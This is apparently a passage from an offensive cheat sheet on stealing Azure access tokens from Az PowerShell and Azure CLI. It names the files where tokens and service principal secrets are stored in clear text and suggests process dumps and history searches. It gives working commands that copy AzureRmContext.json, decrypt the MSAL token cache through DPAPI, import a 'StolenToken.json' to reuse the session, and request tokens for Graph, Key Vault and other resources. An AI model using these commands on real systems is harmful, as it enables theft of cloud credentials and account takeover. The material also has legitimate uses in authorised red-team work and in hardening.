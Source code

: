 ### Stealing tokens from az powershell
- Az PowerShell (older versions) stores access tokens in clear text in ```TokenCache.dat``` in the directory ```C:\Users\<username>\.Azure```
- It also stores ServicePrincipalSecret in clear-text in AzureRmContext.jsonif a service principal secret is used to authenticate. 
- Another interesting method is to take a process dump of PowerShell and looking for tokens in it!
- Users can save tokens using `Save-AzContext`, look out for them! Search for `Save-AzContext` in PowerShell console history!
- Always use `Disconnect-AzAccount`

#### Save the AzureRmContext.json
```
cp %USERPROFILE%\.Azure\AzureRmContext.json C:\temp\AzureRmContext.json
```

#### Get the authenticated token for the user
```
Add-Type -AssemblyName System.Security; [Convert]::ToBase64String([Security.Cryptography.ProtectedData]::Unprotect((([Text.Encoding]::Default).GetBytes((Get-Content -raw "$env:userprofile\AppData\Local\.IdentityService\msal.cache"))), $null, [Security.Cryptography.DataProtectionScope]::CurrentUser))
```

#### Save the token into AzureRmContext.json
-  Open AzureRmContext.json file in a notepad and find the line near the end of the file title “CacheData”. It should be null.

#### Import the token
```
Import-AzContext -Path 'C:\Temp\Live Tokens\StolenToken.json’
```

#### or Save azcontext
```
Save-AzContext -Path C:\Temp\AzureAccessToken.json
```

#### Import the token
```
Import-AzContext -Path 'C:\Temp\Live Tokens\StolenToken.json’
```

### Requesting tokens once logged in
#### AZ powershell
- Supported tokens - AadGraph, AnalysisServices, Arm, Attestation, Batch, DataLake, KeyVault, OperationalInsights, ResourceManager, Synapse
```
Get-AzAccessToken -ResourceTypeName AadGraph
```

#### Azure CLI
- Supported tokens - aad-graph, arm, batch, data-lake, media, ms-graph, oss-rdbms
```
az account get-access-token --resource-type ms-graph 
```
